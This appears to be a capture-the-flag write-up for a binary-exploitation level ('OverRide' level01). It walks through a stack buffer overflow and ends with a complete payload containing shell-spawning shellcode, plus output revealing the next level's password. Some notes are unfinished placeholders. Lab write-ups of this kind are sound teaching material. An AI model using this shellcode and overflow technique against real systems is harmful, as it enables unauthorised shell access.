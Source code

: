 # Level 01

# Level 00

- Once logged in, you will see a binary.

```
[???]$ ssh 164.92.144.154 -p 4242 -l level01
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 164.92.144.154:4242
level01@164.92.144.154's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
level01@OverRide:~$ ls
level01
level01@OverRide:~$
```

let's run the program
```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: admin
verifying username....

nope, incorrect username...

level01@OverRide:~$
```

we don't know the admin and how to program works, so let's take a look at the binary

```
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.

gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
[...]
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
[...]
gdb-peda$ info variables
[...]
0x0804a040  a_user_name
```

We see there are functions, and global variable declared.

by decompiling the source, we at least have an idea what the username and password is, `[dat_wil] and [admin]`

but regardless of giving input with 'correct' id and password..

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...

level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
aaaaaaaaaaaaaaaa
nope, incorrect password...

level01@OverRide:~$
```

needs more xxxxxxxxxxxxxx

from using [Buffer overflow pattern generator
](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?), the offset is 80

As the program use fgets() function we should not be able to make a buffer overflow but fgets() take a max string of 100 chars wich is more than the size of our buffer (64). XXXXXXXXXXX

to create a payload, we first need to put username + '\n'.

Then, the offset (80 bytes) consist of shellcode and padding needs to be fedd, then the address needs to be provided.

from using `ltrace`, the address where password is stored can be easily found `=0xffffd69c`

```
level01@OverRide:~$ ltrace ./level01
__libc_start_main(0x80484d0, 1, -10364, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
) = 39
printf("Enter Username: ")                  = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)         = 0x0804a040
puts("verifying username....\n"verifying username....
)            		= 24
puts("Enter Password: "Enter Password:
)                    = 17
fgets( <unfinished ...>
--- SIGWINCH (Window changed) ---
--- SIGWINCH (Window changed) ---
aaaaaaaaaaaaaaaaaaaaaaaa
<... fgets resumed> "aaaaaaaaaaaaaaaaaaaaaaaa\n", 100, 0xf7fcfac0) = 0xffffd6dc
puts("nope, incorrect password...\n"nope, incorrect password...

)       = 29
+++ exited (status 1) +++
```

so the final payload will be below

```
[input for first]    [         shellcode + padding (within size of offset)           ] + [     address     ]
  dat_wil + '\n'  +    shellcode (28 bytes, or any) + random characters (80-28 = 52)   +  \x9c\xd6\xff\xff
```

The following shellcode will create the payload
```
python -c 'print "dat_wil" + "\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + "\xdc\xd6\xff\xff"'
```

let's see if this works
```
level01@OverRide:~$ (python -c 'print "dat_wil" + "\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + "\xdc\xd6\xff\xff"' ; cat -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```


